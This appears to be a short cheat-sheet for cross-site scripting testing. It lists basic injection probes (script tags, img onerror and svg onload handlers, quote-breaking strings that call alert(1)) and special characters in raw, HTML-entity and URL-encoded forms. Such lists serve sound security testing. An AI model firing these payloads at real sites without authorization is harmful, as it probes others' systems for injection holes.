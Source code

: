 

### **Injectable Characters List for XSS Testing**

```plaintext
<script>alert(1)</script>
"><script>alert(1)</script>
<img src="x" onerror="alert(1)">
';alert(1);// 
"><svg/onload=alert(1)>
& < > " ' / = ; \ ( ) + - [ ] ! : ? | $ @
&#60; &#62; &#34; &#39; &#38; &#40; &#41; &#43; &#45; &#91; &#93; &#33; &#58; &#63; &#124; &#36; &#64;
%3C %3E %22 %27 %26 %28 %29 %2B %2D %5B %5D %21 %3A %3F %7C %24 %40
```

